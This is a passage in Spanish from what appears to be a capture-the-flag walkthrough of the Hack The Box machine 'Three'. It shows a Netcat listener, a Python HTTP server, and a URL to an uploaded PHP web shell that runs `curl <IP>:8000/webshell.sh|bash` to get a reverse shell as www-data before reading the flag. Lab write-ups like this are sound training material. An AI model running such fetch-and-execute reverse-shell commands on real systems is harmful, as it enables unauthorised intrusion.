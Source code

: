 ![Three yw4rf](three-22.png)

Nos ponemos en escucha con **Netcat**, en mi caso con el puerto 1717, utilizando el comando `nc -lvnp 1717`:

![Three yw4rf](three-23.png)

Luego, creamos un servidor HTTP en el puerto 8000 utilizando Python con el comando `python3 -m http.server 8000`:

![Three yw4rf](three-24.png)

Para que la **reverse shell** funcione correctamente debemos ingresar desde la URL el siguiente comando: `http://thetoppers.htb/shell.php?cmd=curl%20<DIRECCION IP>:8000/webshell.sh|bash`

![Three yw4rf](three-25.png)

Verificamos la terminal donde se está ejecutando **Netcat** y confirmamos que la **reverse shell** ha funcionado correctamente. Ahora estamos operando como el usuario `www-data`.

![Three yw4rf](three-26.png)

### tty-treatment

Lo primero que hago al acceder a la máquina a través de una **reverse shell** es configurar correctamente la tty para evitar posibles problemas innecesarios.

![Three yw4rf](three-27.png)
![Three yw4rf](three-28.png)

Como vemos nos encontramos en el directorio raíz del servidor web Apache alojado en el puerto 80: 

![Three yw4rf](three-29.png)

Después de ejecutar el comando `find / -name flag.txt 2>/dev/null` para localizar la flag, el sistema me indica que se encuentra en el directorio `/var/www/`. Luego, utilizo el comando `cd` para acceder a ese directorio y `cat` para visualizar el contenido de la flag.

![Three yw4rf](three-30.png)

Una vez obtenida la flag hemos finalizado la máquina y por ende hemos terminado.